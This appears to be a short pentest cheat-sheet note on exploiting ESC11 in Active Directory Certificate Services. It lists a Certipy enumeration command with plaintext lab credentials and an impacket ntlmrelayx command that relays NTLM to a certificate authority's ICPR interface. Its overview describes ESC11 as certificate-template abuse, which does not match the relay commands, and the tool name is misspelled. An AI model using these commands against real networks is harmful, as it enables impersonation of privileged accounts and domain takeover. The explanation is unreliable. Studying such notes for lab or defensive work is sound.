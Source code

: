 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview: 

Exploiting ESC11 in AD CS involves abusing certificate templates that allow enrollment for certificates with insufficient security controls, enabling attackers to forge certificates that can impersonate privileged accounts. This can lead to unauthorized access and potential full domain compromise, especially when combined with weak certificate validation or mapping practices.

## Requirements:

- Enforce Encryption for Requests: Disabled
- Encryption is not enforced for ICPR requests and Request Disposition is set to Issue

# Abusing ESC11  Certificate Templates

## Certipy:
- cetipy-ad find -username afsimmons@megacorpone.com -p Spawn123! -dc-ip 172.21.1.5 -stdout
- impacket-ntlmrelayx -t rpc://172.21.1.100 -rpc-mode ICPR -icpr-ca-name megacorp-DC-CA -smb2support


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
